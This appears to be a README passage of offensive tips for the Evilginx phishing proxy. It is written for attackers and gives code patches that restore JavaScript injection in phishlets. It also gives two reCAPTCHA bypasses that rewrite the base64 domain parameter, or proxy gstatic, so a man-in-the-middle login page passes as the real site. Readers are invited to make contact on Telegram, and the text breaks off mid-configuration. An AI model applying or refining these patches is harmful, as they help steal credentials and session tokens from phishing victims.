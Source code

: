 
## Some Less Known Techniques
### Using Evilginx2 Phishlets with Evilginx3
- There's been some updates regarding how `js_inject` used to work in evilginx2, Check more [here](https://github.com/kgretzky/evilginx2/releases/tag/v3.0.0).
- To support the evilginx2 phishlets which had `js_inject` , You need to either modify its `trigger_paths` or you can just modify the evilginx3 Source code to support it.
- To know more contact me (https://t.me/hidden9090)
- Modifying `core\phishlet.go` to allow regex in `trigger_paths` for `js_inject`.
```
\\Replace line (line 909)
re, err := regexp.Compile("^" + d + "$")

\\with line
re, err := regexp.Compile(d)
```

### Google Recaptcha Bypass : Method-1 (
- Google recaptcha encodes domain in base64 and includes it in `co` parameter in GET request.
- For Example in safe-domain (Demo) Login.
  ```
  https://www.google.com/recaptcha/enterprise/anchor?ar=1&k=6LePlpgbAAAAAPlPfzzXnJ1lrMTqRWgouzDcSd3b&co=aHR0cHM6Ly9hY2NvdW50cy5zYWZlLWRvbWFpbi5jb206NDQz&hl=en&v=vP4jQKq0YJFzU6e21-BGy3GP&size=invisible&cb=knko72z68i8y
- Here the parameter `co` contains string `co=aHR0cHM6Ly9hY2NvdW50cy5zYWZlLWRvbWFpbi5jb206NDQz` which is the base64 encoding of `https://accounts.safe-domain.com:443`
- In case if we use MITM in between with the mitm domain `fake-domain.com`, the value for the `co` parameter will be set to `https://accounts.fake-domain.com:443` encoded in base64 `aHR0cHM6Ly9hY2NvdW50cy5mYWtlLWRvbWFpbi5jb206NDQzCg`  which is not a valid domain , So we need to modify this parameter value to the original domain `https://accounts.safe-domain.com:443` base64 encoded `aHR0cHM6Ly9hY2NvdW50cy5zYWZlLWRvbWFpbi5jb206NDQz`

- Here is the work around code to implement this. Replace the code in evilginx2 `core/http_proxy.go` line 409
```
				// patch GET query params with original domains & bypass recaptcha
				if pl != nil {
					qs := req.URL.Query()
					if len(qs) > 0 {
						for gp := range qs {
							for i, v := range qs[gp] {
								qs[gp][i] = string(p.patchUrls(pl, []byte(v), CONVERT_TO_ORIGINAL_URLS))
							if qs[gp][i] == "aHR0cHM6Ly9hY2NvdW50cy5mYWtlLWRvbWFpbi5jb206NDQzCg" { // https://accounts.fake-domain.com:443
								qs[gp][i] = "aHR0cHM6Ly9hY2NvdW50cy5zYWZlLWRvbWFpbi5jb206NDQz" // https://accounts.safe-domain.com:443
							}
							}
						}
						req.URL.RawQuery = qs.Encode()
					}
				}
```
### Google Recaptcha Bypass : Method-2
- This method works by modifying the javascript code responsible to generate the base64 string which contains the domain name.
- Subfilter can be modified accordingly based on the target site.
```
proxy_hosts:
  - {phish_sub: 'gstatic', orig_sub: 'www', domain: 'gstatic.com', session: true, is_landing: false, auto_filter: true}
